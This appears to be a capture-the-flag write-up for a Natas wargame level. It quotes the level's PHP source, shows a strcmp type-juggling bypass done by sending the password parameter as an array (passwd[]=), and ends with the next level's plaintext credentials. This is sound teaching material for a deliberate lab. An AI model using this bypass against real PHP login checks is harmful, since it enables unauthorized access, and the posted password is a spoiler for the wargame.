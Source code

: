 
It is simply a prompt asking for the password:

![](./screenshots/23-1.png)

Checking its source code:

```PHP
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

We see that we are using `strcmp` to compare the password we enter a hidden password. `strcmp` returns only 0, negative, or positive numbers. We need it to return 0, so that the negation is executed and changes it to a 1, showing us the next level's password.

> `strcmp` has a weakness when one of the arguments is not a string, it automatically returns 0. 

Therefore, we can set he `passwd` parameter to be an array to exploit this weakness.

```
/index.php?passwd[]=
```
> We changed `passwd` to `passwd[]` making it an array. Now we are comparing the entire array to the string `<censored>`.

![](./screenshots/24-1.png)

Sending this request we see the password for the next level.

![](./screenshots/24-2.png)

`natas25:O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx`

---
